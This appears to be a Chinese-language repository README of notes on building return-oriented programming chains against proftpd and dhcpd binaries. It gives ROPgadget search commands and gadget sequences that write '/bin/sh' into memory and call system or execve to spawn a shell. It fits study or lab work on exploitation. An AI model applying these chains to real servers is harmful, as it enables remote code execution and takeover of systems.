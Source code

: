 ## 任意写
向任意内存地址rw写入内容"/bin/sh"，然后调用sys。

需要寻找往内存中写入数据的gadget（mov）
```
ROPgadget --binary proftpd.bin --only "pop|ret" | grep "rdi"
ROPgadget --binary proftpd.bin --only "mov|ret"
ROPgadget --binary proftpd.bin --only "mov|pop|ret"
ROPgadget --binary proftpd.bin | grep -v "jmp" | grep "mov qword"

----------------------
mov, stos, movs, movzx
```

然后查找控制寄存器的值的gadget(pop rdi)

然后寻找可写入地址(.data 和.bss)，和写入 p64(0x68732f6e69622f) （"/bin/sh"）
```
readelf -S dhcpd.bin
---------------------------
pop rsi, ret
pop rdi, ret
mov qword ptr [rsi], rdi
pop rdi, ret
sys_addr
```

调用sys（设置参数rdi）
```
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rdi"
```

## evecve调用
调用execve(”/bin/sh”, 0, 0)。需要设置
`rdi`:"/bin/sh"地址
`rsi`:0
`rdx`:0
`rax`:0x3b
寻找syscall指令地址

```
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rsi"
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rdx"
ROPgadget --binary dhcpd.bin --only "mov|pop|ret" | grep "eax"
ROPgadget --binary dhcpd.bin | grep "syscall"

-------------------
基于1写入/bin/sh，（binsh_addr, 0, 0）
pop rdi, ret
pop rsi, ret
pop rdx, ret
pop eax, ret  | mov eax, 0x3b
syscall_addr
```


## 可控参数检查
rdi, rsi, rdx, rcx, r8, r9 或ecx
```
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rcx"
ROPgadget --binary dhcpd.bin --only "mov|pop|ret" | grep "rcx"
ROPgadget --binary dhcpd.bin | grep -v "jmp" | grep "ret" | grep "r8"
ROPgadget --binary dhcpd.bin | grep -v "jmp" | grep "ret" | grep "xchg" | grep "r8"

-------------------
pop, mov，xchg, xor

pop rdi, ret
pop rsi, ret
pop rdx, ret
pop rcx, ret
pop r8, ret
pop r9, ret

mov rdi, ret
mov rsi, ret
mov rdx, ret
mov rcx, ret
mov r8, ret
mov r9, ret

check_argv_addr
```

设置可控参数，然后调用check_argv(返回到那个地址)

| register | value    |
| -------- | -------- |
| rdi      | 0x100001 |
| rsi      | 0x100002 |
| rdx      | 0x100003 |
| rcx      | 0x100004 |
| r8       | 0x100005 |
| r9       | 0x100006         |


## 目录
- binary
- debug.sh
- run.sh
- gadget
- rop.py
- rop1.py
- rop2.py
- rop3.py
- inp
